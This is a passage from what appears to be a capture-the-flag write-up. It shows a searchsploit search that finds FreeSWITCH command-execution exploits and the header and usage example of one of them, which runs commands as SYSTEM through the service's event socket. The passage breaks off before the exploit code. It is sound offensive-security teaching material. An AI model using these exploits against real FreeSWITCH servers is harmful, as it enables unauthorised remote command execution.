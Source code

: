 {{< figure src="/flatline/freeswitch_creds.png" title="The Freeswitch service documentation" >}}

# Exploitation

Searching for this with Searchsploit gives us TWO command execution exploits.
One metasploit module and a python script.

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit freeswitch
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit)              | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                                 | windows/remote/47799.txt
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The metasploit module failed to create a session, so we’ll try to run the exploit written in python.

```python
┌──(kali㉿kali)-[~]
└─$ cat /usr/share/exploitdb/exploits/windows/remote/47799.txt
# Exploit Title: FreeSWITCH 1.10.1 - Command Execution
# Date: 2019-12-19
# Exploit Author: 1F98D
# Vendor Homepage: https://freeswitch.com/
# Software Link: https://files.freeswitch.org/windows/installer/x64/FreeSWITCH-1.10.1-Release-x64.msi
# Version: 1.10.1
# Tested on: Windows 10 (x64)
#
# FreeSWITCH listens on port 8021 by default and will accept and run commands sent to
# it after authenticating. By default commands are not accepted from remote hosts.
#
# -- Example --
# root@kali:~# ./freeswitch-exploit.py 192.168.1.100 whoami
# Authenticated
# Content-Type: api/response
# Content-Length: 20
#
# nt authority\system
#

#!/usr/bin/python3
```

## Remote Code Execution
